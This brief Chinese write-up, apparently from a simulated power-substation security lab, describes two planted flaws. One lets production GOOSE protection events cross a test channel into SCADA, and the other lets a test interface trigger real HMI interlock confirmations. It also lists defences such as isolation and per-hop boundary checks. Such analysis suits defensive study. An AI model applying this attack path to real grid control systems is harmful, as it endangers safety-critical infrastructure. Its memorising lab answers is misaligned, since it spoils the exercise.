- 两个漏洞点：① 保护测试通道边界校验缺陷。正常只接受 `test=true` 的 GOOSE 回放事件，缺陷逻辑是 AGC/AVC3 只校验 `test_ticket`，未阻止 `test=false` 正式保护事件进入下游，于是正式 GOOSE 事件被前置机1转发到 SCADA系统5；② HMI 联锁确认授权缺陷。正常应由 SCADA系统3/HMI 授权操作员完成，缺陷逻辑是 HMI 只校验 `interlock_id` 与事件内容，未校验请求来源、角色和测试通道边界，于是 `interlock-test` 测试接口能触发真实联锁确认。
- 旧入口已禁用：`POST AGC/AVC3 /api/dispatch` 返回 `LEGACY_DISPATCH_DISABLED`。
- 防护：测试通道与生产链路物理隔离；`test` 边界在每一跳都校验（不能只在校验入口）；联锁确认做来源 + 角色 + 事件内容三重校验；GOOSE 报文本身无认证，必须在站控层做联锁闭锁与审计。


